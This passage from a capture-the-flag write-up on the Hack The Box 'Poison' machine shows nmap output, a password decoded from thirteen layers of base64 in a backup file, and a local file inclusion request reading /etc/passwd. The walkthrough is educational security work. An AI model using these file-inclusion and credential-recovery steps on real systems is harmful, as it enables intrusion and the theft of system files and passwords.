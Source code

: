 \|\_ Supported Methods: GET HEAD POST OPTIONS

\|\_http-server-header: Apache/2.4.29 \(FreeBSD\) PHP/5.6.32

\|\_http-title: Site doesn't have a title \(text/html; charset=UTF-8\).

Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Navigating to the website, there is a home page suggesting that various PHP files can be tested \(Figure 4-6\).

!\[Graphical user interface, text

Description automatically generated\]\(../.gitbook/assets/4%20%287%29.png\)

Home page of Poison machine

Inputting one of the filenames listed results in the contents of that file being listed. If we enter listfiles.php, the output is:

Array \( \[0\] =&gt; . \[1\] =&gt; .. \[2\] =&gt; browse.php \[3\] =&gt; index.php \[4\] =&gt; info.php \[5\] =&gt; ini.php \[6\] =&gt; listfiles.php \[7\] =&gt; phpinfo.php \[8\] =&gt; pwdbackup.txt \)

The PHP code is creating an array of filenames. The interesting one is pwdbackup.txt which if we access has the contents:

This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU

bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS…

&lt;SNIP&gt;

The encoding format looks like Base64 and so if we simply put the string in a file and decode it13 times we get a password:

┌─\[rin@parrot\]─\[~/boxes/Poison\]

└──╼ $cat password.txt \| base64 -d \| base64 -d \| base64 -d \| base64 -d \| base64 -d \| base64 -d \| base64 -d \| base64 -d \| base64 -d \| base64 -d \| base64 -d\| base64 -d\| base64 -d

Charix!2\#4%6&8\(0

Going back to the home page, the input to the text box is simply being passed as a parameter called "file" to be displayed:

[http://poison.htb/browse.php?file=listfiles.php](http://poison.htb/browse.php?file=listfiles.php)

This looks like a candidate for local file inclusion \(LFI\) by tampering with the file parameter. If we try the URL

[http://poison.htb/browse.php?file=/etc/passwd](http://poison.htb/browse.php?file=/etc/passwd)

We get the contents of the passwd file returned.

\# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $

\#

root:\*:0:0:Charlie &:/root:/bin/csh
